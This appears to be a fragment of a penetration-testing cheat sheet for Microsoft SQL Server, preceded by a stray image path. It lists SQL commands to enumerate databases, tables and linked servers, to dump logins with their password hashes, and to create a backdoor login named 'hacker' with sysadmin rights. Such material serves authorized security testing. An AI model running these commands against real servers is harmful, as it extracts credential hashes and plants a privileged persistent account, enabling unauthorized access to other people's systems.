 ### Manual

```
SELECT name FROM master.dbo.sysdatabases #Get databases
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES; #Get table names
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'
```
